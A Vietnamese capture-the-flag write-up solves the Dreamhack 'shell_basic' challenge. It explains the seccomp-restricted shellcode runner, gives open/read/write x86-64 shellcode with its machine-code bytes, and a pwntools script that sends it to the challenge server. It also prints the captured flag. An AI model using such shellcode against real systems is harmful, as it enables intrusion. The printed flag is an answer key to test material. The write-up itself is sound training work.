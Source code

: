 **1. Tìm lỗi**

Dùng lệnh ```file``` kiểm tra:

```
shell_basic: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=4ab0fe8a3aab93855695a905fc3d5e3fb5a233d4, not stripped
```

Ta có source như sau:

```
// Compile: gcc -o shell_basic shell_basic.c -lseccomp
// apt install seccomp libseccomp-dev

#include <fcntl.h>
#include <seccomp.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/prctl.h>
#include <unistd.h>
#include <sys/mman.h>
#include <signal.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void init() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(10);
}

void banned_execve() {
  scmp_filter_ctx ctx;
  ctx = seccomp_init(SCMP_ACT_ALLOW);
  if (ctx == NULL) {
    exit(0);
  }
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve), 0);
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execveat), 0);

  seccomp_load(ctx);
}

void main(int argc, char *argv[]) {
  char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);   
  void (*sc)();
  
  init();
  
  banned_execve();

  printf("shellcode: ");
  read(0, shellcode, 0x1000);

  sc = (void *)shellcode;
  sc();
}
```

Đoạn code ở hàm main có chức năng cho phép người dùng nhập vào shellcode, sau đó thực thi shellcode đó. Tuy nhiên, code này đã áp dụng các cơ chế bảo mật để giới hạn các hệ thống mà shellcode có thể tương tác với.

Cụ thể, hàm banned_execve() sử dụng thư viện seccomp để cấm các cuộc gọi hệ thống execve và execveat. Điều này có nghĩa là shellcode không thể thực hiện các lệnh để thực thi các chương trình khác trên hệ thống.

Trong hàm main, đầu tiên nó sử dụng hàm mmap để cấp phát một vùng nhớ động với kích thước 0x1000 và gán địa chỉ của vùng nhớ này cho con trỏ shellcode. Vùng nhớ này được cấp phát với quyền đọc, ghi và thực thi.

Tiếp theo, hàm init() được gọi để thiết lập môi trường. Nó sử dụng hàm setvbuf để vô hiệu hóa bộ đệm đầu vào và đầu ra. Sau đó, nó gắn một signal handler cho tín hiệu SIGALRM và thiết lập một alarm để ngắt quá trình thực thi shellcode nếu nó chạy quá lâu.

Cuối cùng, hàm banned_execve() được gọi để áp dụng các ràng buộc seccomp để giới hạn các cuộc gọi hệ thống có thể được sử dụng.

Sau đó, người dùng được yêu cầu nhập shellcode thông qua lời gọi hàm read(). Đoạn mã này sẽ đợi đến khi người dùng nhập vào đủ 0x1000 byte hoặc nhấn Enter. Sau đó, shellcode được gán cho con trỏ sc và thực thi với lời gọi sc().

**2. Ý tưởng**

Tạo shell để mở file theo đường dẫn ```/home/shell_basic/flag_name_is_loooooong```

**3. Khai thác**

Viết mã asm để khai thác

```
    push 1
    mov rax, 0x676E6F6F6F6F6F6F         ;"oooooong"
    push rax
    mov rax, 0x6C5F73695F656D61         ;'ame_is_l'
    push rax
    mov rax, 0x6E5F67616C662F63         ; 'c/flag_n'
    push rax
    mov rax, 0x697361625f6c6c65         ; 'ell_basi'
    push rax
    mov rax, 0x68732f656d6f682f         ; '/home/sh'
    push rax
    ;set sys_open
    mov rax, 0x2
    mov rdi, rsp                        ; RD_only
    xor rsi, rsi
    xor rdx, rdx
    syscall
    mov rdi, rax
    mov rsi, rsp
    sub rsi, 0x30                       ; rsi = rsp - 0x30, buf
    mov rdx, 0x30                       ; rdx = 0x30, len
    mov rax, 0x0                        ; rax = 0
    syscall
    mov rax, 0x1
    mov rdi, 1      ; fd = stdout
    syscall
```

Chuyển sang mã máy bằng link sau: 

```
https://defuse.ca/online-x86-assembler.htm
```

Ta có script như sau:

```
from pwn import *

exe = ELF('shell_basic', checksec = False)
#r = process(exe.path)
r = remote('host3.dreamhack.games', 24162)

payload = b"\x6a\x00\x48\xB8\x6F\x6F\x6F\x6F\x6F\x6F\x6E\x67\x50\x48\xB8\x61\x6D\x65\x5F\x69\x73\x5F\x6C\x50\x48\xB8\x63\x2F\x66\x6C\x61\x67\x5F\x6E\x50\x48\xB8\x65\x6C\x6C\x5F\x62\x61\x73\x69\x50\x48\xB8\x2F\x68\x6F\x6D\x65\x2F\x73\x68\x50\x48\xC7\xC0\x02\x00\x00\x00\x48\x89\xE7\x48\x31\xF6\x48\x31\xD2\x0F\x05\x48\x89\xC7\x48\x89\xE6\x48\x83\xEE\x30\x48\xC7\xC2\x30\x00\x00\x00\x48\xC7\xC0\x00\x00\x00\x00\x0F\x05\x48\xC7\xC0\x01\x00\x00\x00\x48\xC7\xC7\x01\x00\x00\x00\x0F\x05"
#input()
r.sendafter(b'shellcode: ', payload)
r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)

```Flag: DH{ca562d7cf1db6c55cb11c4ec350a3c0b}```